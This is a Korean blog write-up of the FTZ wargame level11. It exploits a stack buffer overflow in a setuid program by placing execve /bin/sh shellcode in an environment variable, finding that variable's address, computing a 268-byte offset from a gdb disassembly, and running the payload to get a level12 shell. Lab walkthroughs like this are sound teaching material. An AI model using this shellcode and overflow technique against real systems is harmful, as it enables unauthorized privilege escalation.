 ```yaml
---
title: "[FTZ] level11 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level11 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level11 풀이
{: .notice--warning}


# 문제

계정 : level11/what!@#$?

**hint**
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}

```

# 풀이

bof 취약점이 존재합니다. 쉘 코드를 작성하여 쉘 코드 주소로 ret 주소를 덮어 써서 권한을 탈취합니다.

쉘 코드는 구글링 해서 찾았습니다. 

```
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80
```

## 환경변수
쉘 코드를 환경변수에 등록하여 리턴 주소를 환경변수로 바꾸는 방법입니다. 

1) 환경변수에 shell 코드 등록하기

```sh
[level11@ftz level11]$ export sh=$(python -c 'print("\x90"*10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
```

![image](https://user-images.githubusercontent.com/33647663/167302401-ee84a3d6-1b23-49a2-9645-c852c875921d.png)

2) 환경변수의 메모리 주소 알아내기

환경변수의 메모리 주소는 다음과 같이 코드를 작성하여 알아냅니다.

**env.c**

```c
#include <stdio.h>

int main(int argc, char* argv[]){
    char *addr;
    addr = (char*)getenv(argv[1]);
    printf("located at %p\n",addr);
    return 0;
}
```

```sh
[level11@ftz tmp]$ gcc -o env env.c
[level11@ftz tmp]$ ./env sh
located at 0xbfffff2f
```

3) bof 취약점을 이용하여 ret 주소 변경
   
```sh
[level11@ftz level11]$ gdb -q attackme
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
0x080484b7 <main+71>:   add    esp,0x10
0x080484ba <main+74>:   leave
0x080484bb <main+75>:   ret
0x080484bc <main+76>:   nop
0x080484bd <main+77>:   nop
0x080484be <main+78>:   nop
0x080484bf <main+79>:   nop
End of assembler dump.
(gdb)
```

스택의 구조는 다음과 같습니다.

```md
str 256 byte
dummy 8 byte
ebp 4 byte
ret 4 byte
```

따라서 268 바이트의 더미를 넣어주고, 환경변수의 주소를 넣어주면 됩니다.

```sh
[level11@ftz level11]$ ./attackme $(python -c 'print("A"*268+"\x2f\xff\xff\xbf")')
sh-2.05b$ id
uid=3092(level12) gid=3091(level11) groups=3091(level11)
sh-2.05b$
```

